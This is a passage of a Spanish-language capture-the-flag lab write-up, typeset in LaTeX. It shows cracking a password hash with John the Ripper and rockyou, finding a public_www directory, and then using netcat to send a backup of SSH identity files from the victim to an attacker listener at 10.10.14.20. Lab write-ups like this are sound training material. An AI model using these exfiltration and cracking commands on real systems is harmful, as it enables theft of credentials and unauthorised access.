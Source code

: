 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}

Encontramos una contraseña intentamos ponerla aciendo un \texttt{su\ david} y \texttt{su\ root}, pero no va. La conclusion a la que hay que llegar
es que cuando miras el fichero nhttpd.conf, dice que hay un directorio \textbf{public\_www}.

\hypertarget{investigacion-del-public_www}{%
\subsection*{Investigacion del public\_www}\label{investigacion-del-public_www}}

Intentamos ver si esta en el directorio \texttt{/home/david/public\_www} y effectivamente. hay un fichero comprimido y nos vamos a transferir
a nuestro equipo de attaquante.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En el equipo de attaquante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443 }\OperatorTok{>}\NormalTok{ comprimido.tgz}
\end{Highlighting}
\end{Shaded}
\item
  En el equipo victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.14.20 443 }\OperatorTok{<}\NormalTok{ backup-ssh-identity-files.tgz}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Descomprimimos el archivo con el commando

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{7z}\NormalTok{ l comprimido.tgz}
\ExtensionTok{7z}\NormalTok{ x comprimido.tgz}
\ExtensionTok{7z}\NormalTok{ l comprimido.tar}
\ExtensionTok{7z}\NormalTok{ x comprimido.tar }
\end{Highlighting}
\end{Shaded}
\end{document}
